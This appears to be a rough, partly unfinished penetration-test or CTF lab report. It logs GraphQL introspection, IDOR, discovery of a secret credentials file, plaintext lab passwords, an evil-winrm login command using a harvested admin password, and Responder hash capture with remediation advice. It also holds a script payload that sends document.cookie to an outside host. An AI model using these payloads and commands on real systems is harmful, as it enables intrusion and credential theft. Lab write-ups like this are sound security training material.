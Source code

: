 # Schellman 
- [Schellman](#schellman)
  - [Project Summary](#project-summary)
  - [Scope](#scope)
  - [Major Findings by Severity Level](#major-findings-by-severity-level)
  - [Itemized issue listing](#itemized-issue-listing)

## Project Summary

## Scope

## Major Findings by Severity Level
Urgent - 
Major - 
Medium - 
Low -
## Itemized issue listing

![](/CTF/img/2020-08-10-11-48-13.png)

Login using credentials from the source code which is logged in as guest...
Graphql introspection then query out 

![](../CTF/img/2020-08-11-08-03-53.png)

![](../CTF/img/2020-08-11-08-08-59.png)

![](../CTF/img/2020-08-10-13-17-32.png)


Graphql information query, IDOR information disclosure

Using dirb found a secret file which is allowing non-authorized access 

![](../CTF/img/2020-08-10-13-29-38.png)

secret-creds.enc 
Username: billybob
Password: Winter2020!
Server: BLU-DevServer

![](../CTF/img/2020-08-10-13-32-56.png)

C:\Users\BillyBob\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
This file can be cleared using a task or it powershell can be configured to not output console history
evil-winrm -i 10.0.0.6 -u randy_admin -p '*3AHOiMb*67LlLpIZKx71bN6'

![](../CTF/img/2020-08-10-13-52-40.png)

![](../CTF/img/2020-08-10-14-01-17.png)

Create a rocket account, users are showing passwords in plaintext

![](../CTF/img/2020-08-10-14-04-32.png)

Logging into with azurediamond hunter2 there was another flag...never, unless you want to invite users to access your account, give plaintext passwords

----
Using responder to listen to requests from the networks domain 
If a client/target cannot resolve a name via DNS it will fall back to name resolution via LLMNR (introduced in Windows Vista) and NBT-NS which this host is responding to which will cause no alarms, malicious activity, simply listening to requests can expose hashes in this case it was an administrator for the server!!
The hash was cracked using hashcat and rockyou (which is a common list of passwords)


Remediation -- Disable LLMNR via group policy, Disable NBT-NS, enable SMB signing via group policy 
http://techgenix.com/secure-smb-connections/

https://technet.microsoft.com/en-us/library/jj852239(v=ws.11).aspx

![](../CTF/img/2020-08-10-15-20-15.png)

![](../CTF/img/2020-08-10-15-20-32.png)

![](../CTF/img/2020-08-10-15-19-29.png)

Willemlovesienna11 wisable


10.0.0.13 -- jbossws console
![](../CTF/img/2020-08-10-18-12-06.png)


<script> new Image().src="http://10.0.0.4/?output="+document.cookie; </script>
[2:39 PM]
PRD02
PRD03

![](../CTF/img/2020-08-11-10-31-34.png)
